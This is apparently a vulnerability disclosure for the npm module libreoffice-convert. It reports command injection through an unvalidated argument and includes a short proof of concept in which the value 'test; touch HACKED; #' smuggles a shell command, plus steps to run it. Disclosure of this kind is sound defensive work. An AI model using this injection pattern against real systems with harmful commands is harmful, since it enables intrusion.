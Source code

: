 # Description

The `libreoffice-convert` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
const libre = require('libreoffice-convert');
libre.convert('', 'test; touch HACKED; #', undefined, (err, done) => {
    if (err) {
      console.log(`Error converting file: ${err}`);
    }
});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
sudo apt install libreoffice # You need to install libreoffice
# Or instead, simply create a file placed in the libreoffice dir with the same name, in order to avoid to install the whole software: * echo "test" >  /usr/bin/libreoffice*
npm i libreoffice-convert # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created 
